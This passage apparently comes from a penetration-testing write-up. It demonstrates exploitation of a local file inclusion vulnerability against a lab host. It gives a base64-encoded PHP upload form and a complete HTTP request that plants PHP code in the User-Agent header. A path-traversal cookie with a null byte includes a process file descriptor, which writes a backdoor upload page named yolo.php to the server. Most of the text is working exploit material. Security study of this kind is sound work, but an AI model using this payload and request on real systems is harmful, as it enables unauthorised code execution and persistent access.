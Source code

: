 Then the encoded payload will be as follows 

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
PGZvcm0gZW5jdHlwZT0ibXVsdGlwYXJ0L2Zvcm0tZGF0YSIgYWN0aW9uPSJ5by5waHAiIG1ldGhvZD0
iUE9TVCI%2BPGlucHV0IHR5cGU9ImhpZGRlbiIgbmFtZT0iTUFYX0ZJTEVfU0laRSIgdmFsdWU9IjUx
MjAwMCIvPiBVcGxvYWQgZmlsZTogPGlucHV0IG5hbWU9InVzZXJmaWxlIiB0eXBlPSJmaWxlIiAvPjx
pbnB1dCB0eXBlPSJzdWJtaXQiIHZhbHVlPSJTZW5kIEZpbGUiIC8%2BPC9mb3JtPjw/cGhwICR1cGxv
YWRmaWxlID0gYmFzZW5hbWUoJF9GSUxFU1sndXNlcmZpbGUnXVsnbmFtZSddKTtlY2hvICI8cD4iO2l
mKG1vdmVfdXBsb2FkZWRfZmlsZSgkX0ZJTEVTWyd1c2VyZmlsZSddWyd0bXBfbmFtZSddLCAkdXBsb2
FkZmlsZSkpe2VjaG8gIkZpbGUgaXMgdmFsaWQsIGFuZCB3YXMgc3VjY2Vzc2Z1bGx5IHVwbG9hZGVkL
goiO31lbHNlIHtlY2hvICJVcGxvYWQgZmFpbGVkIjt9ZWNobyAiPC9wPiI7ZWNobyAnPHByZT4nO2Vj
aG8gJ0hlcmUgaXMgc29tZSBtb3JlIGRlYnVnZ2luZyBpbmZvOic7cHJpbnRfcigkX0ZJTEVTKTtwcml
udCAiPC9wcmU%2BIjs/Pg%3D%3D
</pre>

<p style="text-align:justify;">
Now its time to test all the above. The following request / response pair shows the succesfull exploitation of the LFI vulnerability. The file <code style="background-color: lightgrey; color:black;">yolo.php</code> will be uploaded on the server 
</p>

<i><b> HTTP Request </b></i>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
GET /listings.php?cmd=<span style="color:#cd0000;"><b>PGZvcm0gZW5jdHlwZT0ibXVsdGlwYXJ0L2Zvcm0tZGF0YSIgYWN0aW9uPSJ5b2x
vLnBocCIgbWV0aG9kPSJQT1NUIj48aW5wdXQgdHlwZT0iaGlkZGVuIiBuYW1lPSJNQVhfRklMRV9TSVpFIiB2
YWx1ZT0iNTEyMDAwIi8%2BIFVwbG9hZCBmaWxlOiA8aW5wdXQgbmFtZT0idXNlcmZpbGUiIHR5cGU9ImZpbGU
iIC8%2BPGlucHV0IHR5cGU9InN1Ym1pdCIgdmFsdWU9IlNlbmQgRmlsZSIgLz48L2Zvcm0%2BPD9waHAgJHVw
bG9hZGZpbGUgPSBiYXNlbmFtZSgkX0ZJTEVTWyd1cVyZmlsZSddWyduYW1lJ10pO2VjaG8gIjxwPiI7aWYobW
92ZV91cGxvYWRlZF9maWxlKCRfRklMRVNbJ3VzZXJmaWxlJ11bJ3RtcF9uYW1lJ10sICR1cGxvYWRmaWxlKSl
ZWNobyAiRmlsZSBpcyB2YWxpZCwgYW5kIHdhcyBzdWNjZXNzZnVsbHkgdXBsb2FkZWQuCiI7fWVsc2Uge2Vja
G8gIlVwbG9hZCBmYWlsZWQiO31lY2hvICI8L3A%2BIjtlY2hvICc8cHJlPic7ZWNobyAnSGVyZSBpcyBzb21l
IG1vcmUgZGVidWdnaW5nIGluZm86JztwcmludF9yKCRfRklMRVMpO3ByaW50ICI8L3ByZT4iOz8%2B</b></span> HTTP/1.1
Host: 192.168.201.3
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: <?php $data=base64_decode($_GET['cmd']);$file=fopen('./comments/yolo.php','w');fwrite($file,$data);fclose($file);phpinfo();?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Cookie: PHPSESSID=8010e458940960ea1b44e7c5cca8c4ba; <span style="color:#cd0000;"><b>user=../../../../../proc/3272/fd/9%00</b></span>
Connection: close
</pre>
